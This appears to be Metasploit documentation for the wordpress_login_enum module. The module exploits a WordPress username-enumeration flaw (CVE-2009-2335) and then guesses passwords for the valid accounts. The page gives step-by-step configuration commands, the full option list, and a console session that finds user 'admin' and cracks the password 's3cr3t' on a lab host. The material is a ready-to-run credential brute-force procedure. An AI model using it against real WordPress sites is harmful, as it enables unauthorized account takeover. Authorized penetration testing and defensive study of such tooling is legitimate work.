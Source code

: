 ## Descriptions

This auxiliary module will brute-force a WordPress installation and first determine valid usernames and then perform a password-guessing attack. WordPress and WordPress MU before 2.8.1 exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote attackers to enumerate valid usernames. NOTE: the vendor reportedly disputes the significance of this issue, indicating that the behavior exists for "user convenience." More infomation can be found [here](https://www.cvedetails.com/cve/cve-2009-2335).

## Verification Steps

1. Do: ```use auxiliary/scanner/http/wordpress_login_enum```
2. Do: ```set URI [URI]```
3. Do: ```set PASS_FILE [password file]```
4. Do: ```set USER_FILE [username list file]```
5. Do: ```set RHOSTS [IP]```
6. Do: ```run```

Configure the module first by pointing it to the path of wp-login.php on the target server. Set the username and password files, set the RHOSTS value, and let it run.

## Scenarios

**Running the scanner**

```
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > show options

Module options (auxiliary/scanner/http/wordpress_login_enum):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   BLANK_PASSWORDS      false            no        Try blank passwords for all users
   BRUTEFORCE           true             yes       Perform brute force authentication
   BRUTEFORCE_SPEED     5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS         false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS          false            no        Add all passwords in the current database to the list
   DB_ALL_USERS         false            no        Add all users in the current database to the list
   ENUMERATE_USERNAMES  true             yes       Enumerate usernames
   PASSWORD                              no        A specific password to authenticate with
   PASS_FILE                             no        File containing passwords, one per line
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RANGE_END            10               no        Last user id to enumerate
   RANGE_START          1                no        First user id to enumerate
   RHOSTS                                yes       The target address range or CIDR identifier
   RPORT                80               yes       The target port (TCP)
   SSL                  false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS      false            yes       Stop guessing when a credential works for a host
   TARGETURI            /                yes       The base path to the wordpress application
   THREADS              1                yes       The number of concurrent threads
   USERNAME                              no        A specific username to authenticate as
   USERPASS_FILE                         no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS         false            no        Try the username as the password for all users
   USER_FILE                             no        File containing usernames, one per line
   VALIDATE_USERS       true             yes       Validate usernames
   VERBOSE              true             yes       Whether to print output for all attempts
   VHOST                                 no        HTTP server virtual host

msf auxiliary(wordpress_login_enum) > set URI /wordpress/wp-login.php
URI => /wordpress/wp-login.php
msf auxiliary(wordpress_login_enum) > set PASS_FILE /tmp/passes.txt
PASS_FILE => /tmp/passes.txt
msf auxiliary(wordpress_login_enum) > set USER_FILE /tmp/users.txt
USER_FILE => /tmp/users.txt
msf auxiliary(wordpress_login_enum) > set RHOSTS 192.168.1.201
RHOSTS => 192.168.1.201
msf auxiliary(wordpress_login_enum) > run

[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Running User Enumeration
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'administrator'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Invalid Username: 'administrator'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'admin'
[+] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration- Username: 'admin' - is VALID
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'root'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Invalid Username: 'root'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'god'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Invalid Username: 'god'
[+] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Found 1 valid user
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Running Bruteforce
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Skipping all but 1 valid user
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:''
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'root'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'admin'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'god'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'s3cr3t'
[+] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - SUCCESSFUL login for 'admin' : 's3cr3t'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(wordpress_login_enum) >
```

As you can see in the above output that the module is efficient as it only brute-forces passwords against valid usernames and the scan did indeed turn up a valid set of credentials.